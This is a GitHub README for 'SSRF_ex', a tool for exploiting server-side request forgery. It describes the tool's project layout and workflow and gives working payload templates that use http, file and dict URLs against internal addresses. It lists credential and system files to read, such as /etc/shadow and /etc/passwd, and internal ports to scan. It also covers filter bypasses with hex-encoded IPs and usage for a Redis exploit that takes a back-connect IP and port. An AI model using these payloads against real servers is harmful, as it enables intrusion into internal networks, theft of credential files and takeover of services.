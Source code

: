 # SSRF_ex
SSRF漏洞测试、利用 SSRF vulnerability testing and utilization

SSRF
[+] 服务端请求伪造，当作跳板攻击内网服务
[+] 扫描内部网络、服务
[+] 访问本机敏感文件
[+] 向特定端口发送数据包、payload

```
.
├── exploit
│   └── redis.py
├── lib
│   ├── check_bypass.py
│   ├── check.py
│   ├── common.py
│   ├── config.py
│   ├── scan.py
│   ├── test
│   └── xmltest.xml
├── plugin
│   └── weblogic.py
├── result
│   ├── 192.168.1.107
│   │   ├── file_content.log
│   │   ├── host_port.log
│   │   └── test.log
│   └── 192.168.1.109
│       ├── file_content.log
│       ├── host_port.log
│       └── test.log
├── ssrfex.py


>> ssrfex.py -u http://192.168.1.107/ssrf.php -d url 
```
流程：
```
缓存、存活判断--SSRF漏洞路径判断--简单测试--简单规则绕过--子网、端口扫描
                                  |                       |
                                  |                       |
                              file协议利用           端口Exploit利用
```
### 目标路径判断是否为已知存在漏洞服务
例如：   
```
#ssrf_list = [{'server':'weblogic','path':'/uddiexplorer/SearchPublicRegistries.jsp/uddiexplorer/SearchPublicRegistries.jsp'},{'server':'Splash','path':'/render.html'},{'server':'Typecho','path':'/action/xmlrpc'}]

plugin/weblogic.py -u 192.168.1.1 -p 192.168.1
```

### 简单测试
```
payload_http_inner = "{url}?{query}=http://127.0.0.1".format(url=target,query=parameter)
payload_file = "{url}?{query}=file:///etc/passwd".format(url=target,query=parameter)
payload_dict = "{url}?{query}=dict://127.0.0.1:22".format(url=target,query=parameter)
```
测试协议，通过响应时间、服务指纹、页面返回内容、~静态文件hash值~判断

### file协议读取特定文件
```
['/etc/rsyslog.conf','/etc/syslog.conf','/etc/passwd','/etc/shadow','/etc/group','/etc/anacrontab','/etc/networks','/etc/hosts']
```

### 简单规则绕过
lib/testxml.xml规则和payload
利用url解析，对ip、host等16进制变换以及添加符号绕过

### 端口扫描
```
[22, 80, 445, 3306, 6379, 7001, 8080, 11211]
```
### 内网存活扫描
dict协议，根据服务内容的hash值~时间~判断

### 端口扫描攻击特定端口
```
6379 redis
exploit/redis.py -u [host and parameter] -i [redis_ip] -bip [bip] -bport [bport]
```

### 待更新
* plugin已知SSRF漏洞插件更新：如：Wordpress Discuz Typecho
* SSRF攻击exploit利用：Jobss Mysql struts tomact memcache php-fpm等
* 规则优化
* 302跳转、DNS 利用

### 参考
[1] :SSRF-Testing "https://github.com/cujanovic/SSRF-Testing"
[2] :SSRF bible Cheatsheet "https://docs.google.com/document/d/1v1TkWZtrhzRLy0bYXBcdLUedXGb9njTNIJXa3u9akHM/edit#"
[3] :Build Your SSRF Exploit Framework "https://github.com/ring04h"
